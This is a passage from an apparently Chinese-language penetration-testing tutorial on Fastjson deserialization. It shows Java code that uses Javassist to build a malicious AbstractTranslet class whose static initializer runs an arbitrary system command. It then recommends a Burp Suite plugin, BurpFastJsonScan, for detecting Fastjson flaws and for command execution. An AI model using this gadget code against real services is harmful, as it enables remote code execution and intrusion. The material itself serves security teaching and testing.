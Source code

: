 ```
      return null;
    }
  }
}
class Gadget {
    public static class evil extends AbstractTranslet{
      @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }
        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    }
    static byte[] createEvilBytecode(final String command) throws Exception {
        ClassPool classPool = ClassPool.getDefault();
        // 获取class
        System.out.println("ClassName: " + evil.class.getName());
        final CtClass clazz = classPool.get(evil.class.getName());
        // 插入静态代码块，在代码末尾。
        clazz.makeClassInitializer().insertAfter(
                "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") + "\");"
        );
        clazz.setName("evilxxx");//类的名称，可以通过它修改。
        clazz.writeFile("D:\\");//将生成的.class文件保存到磁盘
        // 获取bytecodes
        final byte[] classBytes = clazz.toBytecode();
        return classBytes;
    }
}
```  
####   
####   
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x4 Fastjson自动化检测插件**  
### 一、BurpFastJsonScan插件  
  
这里呢我就给师傅们推荐下两款burpsuit上面的自动化检测fastjson的插件，这两个插件会对BurpSuite传进来的带有json数据的请求包进行检测，对于像我这样上班爱摸鱼的马楼来讲还是蛮适合的，哈哈哈。  
  
首先，介绍的是BurpFastJsonScan 这款插件是一个希望能节省一些渗透时间好进行划水的扫描插件，该插件会对BurpSuite传进来的带有json数据的请求包进行检测。  
  
目前的功能如下：  
- 命令回显  
  
- 远程命令执行  
  
下载链接：  
https://github.com/pmiaowu/BurpFastJsonScan  
  